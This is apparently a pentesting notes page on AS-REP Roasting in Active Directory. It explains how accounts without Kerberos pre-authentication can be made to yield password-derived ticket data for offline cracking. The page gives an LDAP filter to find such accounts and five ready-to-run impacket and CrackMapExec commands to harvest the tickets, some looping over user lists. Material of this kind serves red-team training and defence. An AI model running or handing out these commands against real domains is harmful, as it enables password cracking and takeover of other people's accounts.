

**AS-REP Roasting** — request a TGT for any account that has Kerberos pre-authentication disabled, then crack the encrypted part of the reply offline to recover the account's password.

## How it works

- A TGT can be requested on behalf of any user with the `Do not require Kerberos pre-authentication` flag set - no credentials needed for that user.
- The attack hits the **first step** of the Kerberos exchange - AS_REQ + AS_REP - hence the name.
- The bruteforce runs against the encrypted part of the TGT; the encryption key is the user's password hash.



## Discovery

Enumerate user accounts with the attribute `Do not require Kerberos pre-authentication` set to `true`.

**Method 1: BloodHound** - built-in query (Analysis tab): `Find AS-REP Roastable Users (DontReqPreAuth)`.

**Method 2: LDAP query** - see [LDAP Recon](../Reconnaissance/LDAP%20Recon.md).

```

"(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" "sAMAccountName"

```

## Exploitation

- `USER_NAME` is a domain account that is not required to pre-authenticate (see Discovery).
- `USER_FILE` is a file containing a list of AD users.
- With valid domain credentials, Method 5 retrieves all the tickets automatically.

### Request a TGT

**Method 1:** impacket, single user

```bash

GetNPUsers.py 'DOMAIN/USER_NAME' -no-pass

```

**Method 2:** impacket, with a user list

```bash

for i in $(cat USER_FILE); do GetNPUsers.py "DOMAIN/$i" -no-pass; done

```

**Method 3:** CrackMapExec, single user

```bash

cme ldap DC_IP -u 'USER_NAME' -p '' --asreproast OUT_FILE

```

**Method 4:** CrackMapExec, with a user list

```bash

cme ldap DC_IP -u 'USER_FILE' -p '' --asreproast OUT_FILE

```

**Method 5:** CrackMapExec, all users at once (requires valid credentials)

```bash

cme ldap DC_IP -u 'USER_NAME' -p 'USER_PASS' --asreproast OUT_FILE

```

### Cracking

See [Windows Password Cracking](../Credential%20Dumping/Windows%20Password%20Cracking.md).

## References

- impacket - https://github.com/fortra/impacket
- CrackMapExec - https://github.com/byt3bl33d3r/CrackMapExec
- HackTricks - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast
- Hashcat example hashes - https://hashcat.net/wiki/doku.php?id=example_hashes
